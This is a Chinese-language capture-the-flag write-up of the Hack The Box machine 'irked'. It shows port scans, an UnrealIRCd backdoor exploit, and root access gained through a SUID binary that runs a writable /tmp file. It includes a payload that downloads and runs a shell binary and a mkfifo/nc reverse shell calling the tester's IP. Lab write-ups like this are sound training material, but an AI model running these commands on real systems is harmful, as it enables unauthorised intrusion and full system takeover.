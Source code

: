 
irked - 我来 Wolai




irked
nmap
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
40791/tcp open  unknown
65534/tcp open  unknown
 
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36353/udp6  status
|   100024  1          40791/tcp   status
|   100024  1          53764/tcp6  status
|_  100024  1          56272/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
40791/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
注意这里有个域名  irked.htb
ssh
ssh版本低，且使用了不安全算法，没有对应的exp
http
主页打开有一张图片，分析后没有发现异常
└─# curl http://10.10.10.117/
<img src=irked.jpg>
<br>
<b><center>IRC is almost working!</b></center>
提示中有IRC 和上面的扫描结果有关联
目录爆破
manual页面是apcache的帮助文档页面，用处不大
IRC
irc是什么？  
What is IRC (Internet Relay Chat)? (computerhope.com)
看上去是一款古老的协议
manual - 失败
UnrealIrcd是什么
└─# searchsploit  unrealirc
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                        | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                             | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                      | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                           | windows/dos/27407.pl
Authentication types - UnrealIRCd documentation wiki
使用13853.pl，将其中的playload修改成自己的反弹shell，没有成功，看了下原始的shell都是从远端服务器下载到本地后执行，尝试在kali上起web服务提供shell下载
my $payload2 = 'AB; cd /tmp; wget http://10.10.16.11/bindshell -O bot; chmod +x bot; ./bot &';
但是没有触发下载
msf
通过msf拿到一个低权shell ircd，存在另外一个用户 djmardov，存在user.txt 但是没有权限
NSE脚本（没有考虑到）
└─# locate   *.nse | grep  unreal
/usr/share/nmap/scripts/irc-unrealircd-backdoor.nse
Privilege Escalation
ircd → djmardov
没有sudo
使用pspy看下定时进程，LinEnum.sh 都没有特别发现
看下题解
ircd@irked:/usr/bin$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/usr/bin$ ./viewuser
./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-05 07:14 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/usr/bin$
有个SUID的敏感文件，执行后有shell文件执行报错没有找到文件，在目录下新建一个同名文件，内容为反弹shell，拿到root权限
ircd@irked:/usr/bin$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f" > /tmp/listusers
<t /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f" > /tmp/listusers
ircd@irked:/usr/bin$

ircd@irked:/usr/bin$

ircd@irked:/usr/bin$ cat /tmp/listusers
cat /tmp/listusers
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f
ircd@irked:/usr/bin$

ircd@irked:/usr/bin$

ircd@irked:/usr/bin$ ./viewusers
./viewusers
bash: ./viewusers: No such file or directory
ircd@irked:/usr/bin$ ./viewuser
./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-05 07:14 (:0)


